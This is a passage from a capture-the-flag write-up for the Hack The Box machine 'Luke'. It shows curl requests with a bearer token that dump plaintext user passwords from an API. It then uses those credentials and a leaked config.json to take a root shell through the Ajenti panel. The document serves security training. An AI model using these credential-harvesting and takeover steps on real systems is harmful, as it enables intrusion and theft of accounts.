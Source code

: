 So we found 4 users!!!
* Admin
* Derry
* Yuri
* Dory

We can get details on each one by issuing commands to ``http://luke.htb:3000/users/[username]`` as follows

```commandline
curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4OTg1NjQ0LCJleHAiOjE1NTkwNzIwNDR9.jEiJ78GrGYiU-w6xxKA7sh_pJ0AI847byB_Q3LLvP08' http://luke.htb:3000/users/Derry
{"name":"Derry","password":"rZ86wwLvx7jUxtch"}

root@kali:~/htb/machines/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4OTg1NjQ0LCJleHAiOjE1NTkwNzIwNDR9.jEiJ78GrGYiU-w6xxKA7sh_pJ0AI847byB_Q3LLvP08' http://luke.htb:3000/users/Yuri
{"name":"Yuri","password":"bet@tester87"}

root@kali:~/htb/machines/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4OTg1NjQ0LCJleHAiOjE1NTkwNzIwNDR9.jEiJ78GrGYiU-w6xxKA7sh_pJ0AI847byB_Q3LLvP08' http://luke.htb:3000/users/Dory
{"name":"Dory","password":"5y:!xa=ybfe)/QD"}

root@kali:~/htb/machines/luke# curl -X GET -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU4OTg1NjQ0LCJleHAiOjE1NTkwNzIwNDR9.jEiJ78GrGYiU-w6xxKA7sh_pJ0AI847byB_Q3LLvP08' http://luke.htb:3000/users/Admin
{"name":"Admin","password":"WX5b7)>/rp$U)FW"}
```
###Credential Found

* Admin - WX5b7)>/rp$U)FW
* Derry - rZ86wwLvx7jUxtch
* Yuri - bet@tester87
* Dory - 5y:!xa=ybfe

Enumeration finally uncovers /management on port 80, which is realm based authentication

Use Derry’s credentials: Derry:rZ86wwLvx7jUxtch

http://luke.htb/management/

Shows a listing of files, including config.json!

Config.json has a user called root with a password of KpMasng6S5EtTy9Z!
* root - KpMasng6S5EtTy9Z

Let’s use this to log in to port 8000

We're now logged into the Ajenti web application. There is a terminal tool in the left navigation 
panel. Click that and we are root!

```commandline
# whoami
root                                                                                                                                                           

# cat /root/root.txt
********************************

# cat /home/derry/user.txt
********************************                                                                                                                                   
```